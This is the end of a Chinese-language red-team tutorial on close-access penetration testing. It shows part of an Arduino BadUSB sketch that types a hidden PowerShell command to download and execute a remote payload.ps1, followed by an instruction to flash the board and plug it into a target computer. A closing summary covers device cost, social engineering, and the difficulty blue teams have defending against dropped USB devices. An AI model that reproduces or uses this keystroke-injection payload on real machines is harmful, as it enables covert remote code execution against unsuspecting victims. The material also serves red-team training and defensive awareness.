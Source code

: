 ```plain
Keyboard.println("powershell -windowstyle hidden IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/payload.ps1') ");
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯 
}
void loop() {}
```

8、将代码上传到开发板中，等待烧录完成即可，烧录成功之后，插入电脑即可上线

# [总结](#toc__16)

近源渗透相比普通的渗透测试可能成本更高，毕竟一个设备动不动就要一两百美刀，谁顶得住啊，但是如果能更好的掌握社工技巧会事半功倍，而且对于蓝队来说更是防不胜防，有可能自己在网络这块防得死死的，被现场的好队友捡到的 u 盘送走了，虽然设备费用贵，但贵有贵的道理，从另一个方面讲，以后的常规渗透测试肯定也会越来越多的结合近源渗透测试的一些手段和方法，这不仅仅是提高了红队的攻击能力，同时也是对蓝队防守能力在更高维度上提出了要求。
